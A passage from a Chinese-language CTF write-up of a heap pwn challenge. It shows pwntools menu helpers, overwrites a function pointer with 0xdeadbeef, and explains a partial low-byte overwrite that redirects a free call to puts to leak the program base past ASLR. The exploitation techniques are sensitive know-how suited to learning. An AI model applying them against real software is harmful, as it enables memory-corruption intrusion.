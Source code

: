 ```python
        return
    if index == 3:
        sh.sendline(b"quit string")


def create(length_: int, content: AnyStr):
    menu(1)
    sh.sendlineafter(b"Pls give string size:", str(length_).encode())
    content = content if isinstance(content, bytes) else str(content).encode()
    content = content.ljust(length_, b'\x00')
    sh.sendlineafter(b"str:", content)


def delete(index: int, extra: Optional[AnyStr] = b''):
    menu(2)
    sh.sendlineafter(b"id:", str(index).encode())
    if isinstance(extra, str):
        extra = extra.encode()
    sh.sendlineafter(b"Are you sure?:", b"yes" + extra)


def quit_():
    menu(3)


def gdb_(time_: Optional[int] = None, arg: Optional[str] = None):
    gdb.attach(sh, arg)
    pause(time_)

```

先写好基本的菜单。

按照我们的思路，尝试覆盖一下

```python
create(4, b'aa')  # 0
create(4, b'aa')  # 1
delete(1)
delete(0)
gdb_(1)
create(0x20, b'a'*0x10 + b'b'*0x08 + p64(0xdeadbeef))
```

![image-20220712220738138](https://cdn.novanoir.moe/img/image-20220712220738138.png)

可以看到，我们的`freeShort`函数已经被覆盖了，此时执行`delete(1)`，便会执行`0x00005571deadbeef`这个地址的函数，并且以`ptr`本身作为参数。

但是要注意的是，由于保护几乎是全开的，我们目前没有办法泄露`libc_base`

![checksec](https://cdn.novanoir.moe/img/image-20220712221051887.png)

但是观察`IDA`可以发现，距离两个`free`很近的地方它执行了`call _puts`，由`ASLR`随机不会改变低十二位的特点，我们可以将最后两个字节直接改为`\x7c`，这样`free`的时候执行的就是`puts(ptr)`，根据上图，`puts`的结果应该是`'a'*0x10+'b'*0x10+addr_of_call__puts`，再减去`0x147C`，我们便可以得到程序的运行基地址
